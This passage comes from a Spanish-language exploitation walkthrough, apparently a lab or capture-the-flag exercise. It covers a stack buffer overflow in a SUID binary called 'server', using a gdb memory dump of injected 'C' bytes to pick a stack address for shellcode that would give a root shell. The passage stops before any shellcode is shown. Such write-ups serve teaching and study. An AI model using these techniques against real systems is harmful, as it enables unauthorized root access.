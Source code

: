 Por lo que vemos las `C` se estan poniendo bien, por lo que ahora vamos a ver cuales son las direcciones de memoria en las cuales se estan inyectando esas `C` para coger una la cual en vez de inyectarle una `C` le inyectaremos una `shell`.

```gdb
x/300wx $esp
```

Info:

```
0xffffd2e0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2f0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd300:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd310:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd320:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd330:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd340:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd350:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd360:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd370:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd380:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd390:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3a0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3b0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3c0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3d0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3e0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd3f0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd400:     0x43434343      0x43434343      0x43434343      0x4343000a
0xffffd410:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd420:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd430:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd440:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd450:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd460:     0x43434343      0x43434343      0x43434343      0x43434343
```

Vemos que alguna de estas direcciones de memoria es en la que vamos a poder inyectar la `shell` por lo que vamos a elegir una de forma aleatoria que este por el medio, en mi caso elegire la siguiente:

```
0xffffd3b0
```

Ahora vamos a crearnos una `shell` inyectandola en esta direccion de memoria, por lo que nos dara una `shell` como `root` ya que el binario esta con permisos `SUID` y se estaria ejecutando como `root`.

Vamos a salirnos del `gdb` e iniciar el binario `server` de forma normal:

```shell
./server
```

> host

